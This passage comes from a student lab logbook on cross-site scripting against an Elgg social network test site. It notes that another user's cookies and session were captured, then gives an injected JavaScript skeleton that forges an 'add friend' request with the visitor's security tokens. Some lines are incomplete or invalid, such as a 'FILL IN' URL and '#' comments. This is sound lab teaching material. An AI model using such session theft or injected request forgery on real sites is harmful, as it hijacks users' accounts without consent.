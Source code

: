<figure>
    <img src="images/logbook10/task3/3.png" alt="Server sending the cookies" width="50%" />
    <figcaption><strong>Fig 9. </strong>Server sending the cookies</figcaption>
</figure>

4. Now we have access to another user's cookiesand session.

<br>

## Task 4 : Becoming the Victim’s Friend

Our goal for this task is to automatically add the victim user as our friend when they visit our profile.

1. Prepare the payload
    - The lab for this task gives us the following JavaScript skeleton:
        ```js
        <script type="text/javascript">
            window.onload = function () {
                var Ajax=null;

                var ts="&__elgg_ts="+elgg.security.token.__elgg_ts; #1
                var token="&__elgg_token="+elgg.security.token.__elgg_token; #2

                //Construct the HTTP request to add Samy as a friend.
                var sendurl= "http://www.seed-server.com/action/friends/add?friend=57&__elgg_ts"; //FILL IN

                //Create and send Ajax request to add friend
                Ajax=new XMLHttpRequest();
                Ajax.open("GET", sendurl, true);
                Ajax.send();
            }
        </script>
        ```
